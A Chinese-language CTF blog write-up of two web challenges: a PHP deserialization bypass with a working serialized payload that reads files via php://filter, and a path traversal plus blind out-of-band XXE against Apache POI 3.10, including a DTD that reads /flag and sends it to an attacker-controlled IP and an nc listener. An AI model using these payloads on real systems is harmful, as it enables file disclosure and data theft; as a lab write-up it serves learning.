








看来反序列化要多打点了，反序列化这块都不怎么熟~
AreUSerialz
源码
1 | |
2 | include("flag.php"); |
3 | highlight_file(__FILE__); |
4 | class FileHandler { |
5 | |
6 | protected $op; |
7 | protected $filename; |
8 | protected $content; |
9 | |
10 | function __construct() { |
11 | $op = "1"; |
12 | $filename = "/tmp/tmpfile"; |
13 | $content = "Hello World!"; |
14 | $this->process(); |
15 | } |
16 | |
17 | public function process() { |
18 | if($this->op == "1") { |
19 | $this->write(); |
20 | } else if($this->op == "2") { |
21 | $res = $this->read(); |
22 | $this->output($res); |
23 | } else { |
24 | $this->output("Bad Hacker!"); |
25 | } |
26 | } |
27 | |
28 | private function write() { |
29 | if(isset($this->filename) && isset($this->content)) { |
30 | if(strlen((string)$this->content) > 100) { |
31 | $this->output("Too long!"); |
32 | die(); |
33 | } |
34 | $res = file_put_contents($this->filename, $this->content); |
35 | if($res) $this->output("Successful!"); |
36 | else $this->output("Failed!"); |
37 | } else { |
38 | $this->output("Failed!"); |
39 | } |
40 | } |
41 | |
42 | private function read() { |
43 | $res = ""; |
44 | if(isset($this->filename)) { |
45 | $res = file_get_contents($this->filename); |
46 | } |
47 | return $res; |
48 | } |
49 | |
50 | private function output($s) { |
51 | echo "[Result]: <br>"; |
52 | echo $s; |
53 | } |
54 | |
55 | function __destruct() { |
56 | if($this->op === "2") |
57 | $this->op = "1"; |
58 | $this->content = ""; |
59 | $this->process(); |
60 | } |
61 | |
62 | } |
63 | |
64 | function is_valid($s) { |
65 | for($i = 0; $i < strlen($s); $i++) |
66 | if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125)) |
67 | return false; |
68 | return true; |
69 | } |
70 | |
71 | if(isset($_GET{'str'})) { |
72 | |
73 | $str = (string)$_GET['str']; |
74 | if(is_valid($str)) { |
75 | $obj = unserialize($str); |
76 | } |
77 | |
78 | } |
考点：
序列化后产生不可见字符
private、protected序列化后产生不可见字符
1 | private属性序列化的时候格式是 %00类名%00成员名 |
2 | protected属性序列化的时候格式是 %00*%00成员名 |
__destruct()
而__destruct()这个魔术方法在每次销毁一个对象时触发。
而 PHP 的特性 「 运行完一次请求则销毁环境 」 的做法。反正执行完请求后所有该销毁的都会销毁。
但是我们要把op == 2才能进入read利用
绕过
PHP7.1以上的反序列化不会判断里面参数的属性类型了，所以可以改成public再进行反序列化，绕过private、protected序列化后产生不可见字符。__destruct()方法，当op===”2”时会将”2”变成”1”,可以把op转成int型进行绕过~
读取
因为默认路径改了个名~
先读取一下index.php


1 | O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:58:"php://filter/read=convert.base64-encode/resource=index.php";s:7:"content";N;} |
可以看到成功读取了
但是读不到flag.php~~
linux提供了/proc/self/目录，这个目录比较独特，不同的进程访问该目录时获得的信息是不同的，内容等价于/proc/本进程pid/。进程可以通过访问/proc/self/目录来获取自己的信息。
下面内容来自imagin
1 | 1. maps 记录一些调用的扩展或者自定义 so 文件 |
2 | 2. environ 环境变量 |
3 | 3. comm 当前进程运行的程序 |
4 | 4. cmdline 程序运行的绝对路径 |
5 | 5. cpuset docker 环境可以看 machine ID |
6 | 6. cgroup docker环境下全是 machine ID 不太常用 |
利用/proc/self/cmdline找到当前运行程序的路径，
然后找到当前的网站根目录配置文件。
不过好像相对路径也可以~
filejava
一开始还以为是java上传题，后来下载时候发现可能是目录穿越。

可以看到路径，看看WEB-INF下面的web.xml试试
1 | filename=../../../../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml |
比赛的时候和buu的路径不太一样。


一共三个文件，在UploadServlet.class文件中存在上传
poi-ooxml-3.10 has something wrong这样的输出，发现3.10有一个漏洞

Apache POI 3.10-FINAL及以前版本被发现允许远程攻击者通过注入XML外部实体访问外部实体资源或者读取任意文件。
构造Blind OOB XXE
上传引入我们的vps里的dtd的一个xml的外部实体攻击
上传的文件满足两个条件：
- 以
excel-开头 - 以
xlsx结尾
我在BUU上复现的，BUU靶机只能内网访问。所以需要用小号开一个Basic里面的linux靶机
在/var/www/html/下构建一个1.dtd
1 | <!ENTITY % file SYSTEM "file:///flag"> |
2 | <!ENTITY % int "<!ENTITY % send SYSTEM 'http://ip:2333?%file;'>"> |
先创建一个xlsx文件，然后改后缀为zip修改里面的[Content_Types].xml文件。(先把该文件单独解压出来，修改完后再压进去)

1 | |
2 | |
3 | <!ENTITY % remote SYSTEM "http://ip/1.dtd"> |
4 | %remote;%int;%send; |
5 | ]> |
再将文件后缀改为xlsx文件
监控我们linux靶机的2333端口(记得进去/var/www/html):
1 | nc -lvvp 2333 |
然后上传我们的xlsx文件就行了
就可以看到靶机上的注入结果了

notes
CVE-2019-10795 undefsafe原型链污染
最近在研究jsouyp搞爬虫,准备开发个阅读器自用= =,最后一题等我有时间在做好了,node这方面也不怎么熟,希望后面用vue开发完后能很快理解~
参考
PHP反序列化从初级到高级利用篇
proc/self/目录的意义
网鼎杯-web
Apache POI XML外部实体（XML External Entity，XXE）攻击详解